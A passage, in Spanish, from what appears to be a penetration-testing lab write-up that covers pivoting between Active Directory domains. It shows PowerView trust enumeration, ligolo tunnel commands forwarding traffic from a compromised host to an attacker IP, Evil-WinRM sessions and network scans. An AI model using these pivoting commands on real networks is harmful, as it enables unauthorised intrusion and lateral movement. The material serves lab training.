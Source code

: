 Se realizaron varias acciones para establecer la conexión entre los equipos y explorar la red:

1. Se identificó que había una interfaz de red adicional en la red 192.168.11.0/24 además de la interfaz de dominio estándar.
2. Se utilizó el módulo PowerView.ps1 para enumerar los dominios y se encontró otro dominio llamado megaairline.local que estaba en relación con el dominio daedalus.local.
3. Se resolvió el problema de la conectividad entre los equipos mediante ligolo. Se configuró un redireccionamiento en ligolo desde el equipo WEB01 al equipo local para el puerto 8888.
4. Se inició una sesión de Evil-WinRM desde el equipo DC1 al equipo WEB01 a través del puerto 8888, estableciendo así una conexión entre los dos equipos.
5. Se agregó la subred 192.168.10.0/24 a la interfaz de ligolo para permitir la conexión con todos los equipos de la red.
6. Se escaneó la subred 192.168.11.0/24 utilizando CrackMapExec y se identificaron tres equipos: DC1, DC2 y MS01, pertenecientes al dominio megaairline.local.
7. Se agregaron las direcciones IP de los equipos identificados junto con sus dominios correspondientes al archivo /etc/hosts para facilitar la resolución de nombres.
8. Se realizó un escaneo de puertos en la subred 192.168.11.0/24 con nmap, revelando que el equipo MS01 tenía el puerto 80 abierto, lo que indica la presencia de un posible servicio web en ese equipo.

```powershell
PS C:\Users\Administrator\Documents> Import-Module .\PowerView.ps1  
PS C:\Users\Administrator\Documents> Invoke-MapDomainTrust

SourceName      : daedalus.local
TargetName      : megaairline.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 10/10/2020 5:48:47 PM
WhenChanged     : 9/1/2023 2:59:58 AM

PS C:\Users\Administrator\Documents>
```

```powershell
[Agent : WEB01\svc_dev@WEB01] » listener_add --addr 192.168.10.39:8888 --to 10.10.14.10:8888  
INFO[0173] Listener created on remote agent! 
[Agent : WEB01\svc_dev@WEB01] »
```

```powershell
PS C:\Users\Administrator\Documents> .\agent.exe -connect 192.168.10.39:8888 -ignore-cert  
```

```bash
Agent : WEB01\svc_dev@WEB01] » 
INFO[0179] Agent joined.           name="DAEDALUS\\Administrator@DC1" remote="10.10.14.10:47204"  
[Agent : WEB01\svc_dev@WEB01] » session
? Specify a session : 2 - DAEDALUS\Administrator@DC1 - 10.10.14.10:47204
[Agent : DAEDALUS\Administrator@DC1] » start
INFO[0190] Starting tunnel to DAEDALUS\Administrator@DC1 
[Agent : DAEDALUS\Administrator@DC1] »
```
